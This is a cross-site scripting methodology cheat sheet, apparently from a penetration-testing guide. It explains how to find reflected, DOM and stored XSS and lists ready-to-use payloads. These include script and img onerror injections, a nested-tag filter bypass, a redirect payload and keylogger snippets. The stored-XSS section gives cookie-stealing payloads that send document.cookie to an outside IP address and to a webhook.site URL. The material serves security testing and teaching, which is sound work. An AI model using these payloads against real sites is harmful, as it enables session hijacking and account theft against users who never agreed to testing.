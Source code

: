 [https://appsecexplained.gitbook.io/appsecexplained/common-vulns/javascript-injection-xss/xss-methodology](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/javascript-injection-xss/xss-methodology)
## Identify
---
Are we able to control any data that is being reflected back and rendered by the application?

Important considerations:
- Where is the payload executing?
- What input validation exists?

## HTLM Tag Context
---
If we have control over content that is being reflected in an html tag.
You can try to close the tag and exec
```
"><script>prompt(1)</script>
"><img src=x onerror="prompt(1)">
```
If you have control over an `href` you can try the javascript browser scheme
```
http://example.com --> javascript:prompt()
```

## Javascript context
---
If we have control over content that is being reflected into a javascript context. Example:
```javascript
var querySearch = 'controlledInput'
```
Break the quote by appending input and comment out trailing semicolon.
```
controlledInput';prompt()//';
```


## General

### Quickly test for unfiltered tags
---
1. Get a list of tags (copy to clipboard [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet))
2. Intercept request with burp, send to intruder.
![](../../assets/Pasted%20image%2020250629173700.png)
3. Paste the tags into the payloads. 
4. Start attack, monitor for unfiltered response codes, different length responses, etc...
5. You've hopefully found an unfiltered tag.
6. You can append portions of the payloads to determine exactly what is triggering the block.
7. Copy the events from portswigger, do the same thing for the event portion of the payload.


**Test html injection first, usually this is a good indicator (JS = you might need to bypass filter)**
```Python
<h1>test</h1>
```
**Payloads**
```html
<script>alert()</script>
```
```html
<script>print()</script>
```
```html
<script>prompt("string")</script>
```
```html
<script>alert(window.origin)</script>
```
```html
 <plaintext>
```
!!! alert "info"
	Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of window.origin in the alert box, instead of a static value like 1. In this case, the alert box would reveal the URL it is being executed on

**You need to trigger XSS if not executed on page load**
```html
<img src=x onerror="prompt(1)">
```
**Redirect**
```html
<img src=x onerror="window.location.href='<https://example.com>'">
```
**script tag filter**
```html
<img src=x onerror=print()>
```
```html
<scri<script>pt>prompt(1)<scri</scr</script>ipt>
```
**Keylogger**
```html
function logKey(event){console.log(event.key)}
```
```html
 document.addEventListener('keydown', logKey)
```


## DOM XSS
---
### Identify
You have XSS execution, but no http requests are being made. We see that the input parameter in the URL is using a hashtag # for the item we added, which means that this is a client-side parameter that is completely processed on the browser. This indicates that the input is being processed at the client-side through JavaScript and never reaches the back-end. This is DOM XSS
if we look at the page source by hitting `CTRL+U`, we will notice that our `test` string is nowhere to be found. This is because the JavaScript code is updating the page when we click the `Add` button
We can still view the rendered page source with the Web Inspector tool by clicking `CTRL+SHIFT+C`:

## Stored
**Steal admin cookie (classic)**
```html
<script>fetch("<http://192.168.187.130:9999/>" + document.cookie)</script>
```
```html
<script>var i = new Image; i.src="https://webhook.site/9b3374bf-b997-4021-a302-de75a26fd841/?"+document.cookie;</script>
```

!!! alert "note"
	Sometimes you may need to trigger the payload with JS as well (JS to resize the screen when using an onresize event to trigger)

### Automated with DOM Invader
---
Turn DOM invader on via the burp extension. Open dev tools,click DOM Invader tab.
Input the provided canary to potential execution. DOM Invader will identify sources and sinks for that data.